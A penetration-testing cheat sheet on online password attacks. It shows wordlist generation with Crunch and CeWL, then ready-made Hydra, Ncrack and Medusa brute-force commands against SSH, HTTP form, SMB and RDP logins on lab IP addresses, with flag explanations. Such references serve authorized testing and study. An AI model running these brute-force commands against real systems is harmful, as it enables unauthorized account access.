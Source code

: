 # Online Attack

## Wordlist

### Crunch

Crunch is a tool that can generate custom wordlist with defined character-sets and password formats.

```
crunch [min] [max] [characterset] -t [pattern] -o [output filename]
```

```
min = minimum password length 
max = maximum password length 
characterset = The character set to be used in generating the passwords 
-t = patten, for example if you knew that your target's birthday was 0728 (July 28th) and you suspected they used their birthday in their password, you could generate a password list that ended with 0728 by giving crunch the pattern @@@@@@@0728.
```

```
./crunch 1 1 -p pen test lab
```

The second option is when we will want to create a list based on different words.For example the words blue and red can be bluered or redblue.We can achieve this with the command:

```
./crunch 6 6 0123456789 -b 1mb -o START
```

This will generate wordlists which will be 1Mb each and with 6 characters size and it will include the characters 0123456789.

```
./crunch 3 3 -f charset.lst lalpha -o START -c 20
```

Crunch allows us to specify the number of words in each wordlist.This will create a wordlists that it will contain 20 words maximum by taken a specific charset of lalpha which is \[abcdefghijklmnopqrstuvwxyz\].

```
./crunch 13 13 -f charset.lst lalpha -t pentestlab@@@
```

Create a wordlist that will contains the word pentestlab followed by 3 random characters.

### CeWL

CeWL is a ruby app which spiders a given url to a specified depth, optionally following external links, and returns a wordlist which can then be used for password crackers such as John the Ripper.

```
cewl -d 2 -m 5 -w docswords.txt http://docs.kali.org
```

## Bruteforce

### Hydra

```
hydra -l username -p passwordlist.txt [target (ip address and port)]
```

#### SSH bruteforce

Brute-force SSH root account using a wordlist/dictionary

```
hydra -l root -P 500-worst-passwords.txt 192.168.1.10 ssh
```

-l = the username

-L = list of usernames \(if you don't know the login\)

-p = password \(never used\)

-P - the directory for the wordlists \(file\)

-M FILE list of servers to be attacked in parallel, one entry per line

Less common options: -vV = verbose mode, shows you every login attempt hydra tries

-s = specify the port on which we running our attack

-e ns = checks for blank or no password fields

#### HTTP Form Bruteforce

Brute-force HTTP Form POST using a username list to try different usernames

```
hydra -L [username list] -P [password list] 192.168.1.10 [form parameters] [failed login message]
```

#### SMB Bruteforce

> `hydra –L /root/Desktop/user.txt -P /root/Desktop/pass.txt 192.168.1.118 smb`

![Single Target , Port and Protocol](../.gitbook/assets/image.png)

![Username List, Password List](../.gitbook/assets/image%20%282%29.png)

{% embed data="{\"url\":\"http://www.hackingarticles.in/5-ways-to-hack-smb-login-password/\",\"type\":\"link\",\"title\":\"5 Ways to Hack SMB Login Password\",\"description\":\"In this article, we will learn how to gain control over our victim’s PC through SMB Port. There are various ways to do it and let take time and learn all those because different circumstances call for different measure. xHydra This is the graphical version to apply dictionary attack via SMB port to hack a... Continue reading →\",\"thumbnail\":{\"type\":\"thumbnail\",\"url\":\"https://4.bp.blogspot.com/-1l4jtN0-RVs/Wp7QKE\_WPPI/AAAAAAAAVB8/ID1QQcSz4IUkOIVPvQqWMKMBnjk6A7uVwCEwYBhgL/s1600/3.png\",\"width\":482,\"height\":546,\"aspectRatio\":1.1327800829875518}}" %}

### Ncrack

#### RDP bruteforce

 ```
 ncrack -vv --user offsec -P passwordfile.txt rdp://192.168.11.35
 ```

#### SMB Bruteforce

```
ncrack –u /root/Desktop/user.txt -P /root/Desktop/pass.txt 192.168.1.118 –p 445
```

-U - denotes the path of username list

-P – denotes password file’s path

-p – is the port number

### Medusa

#### SMB Bruteforce

```
medusa -h 192.168.1.118 -U /root/Desktop/user.txt -P /root/Desktop/pass.txt -M smbnt
```

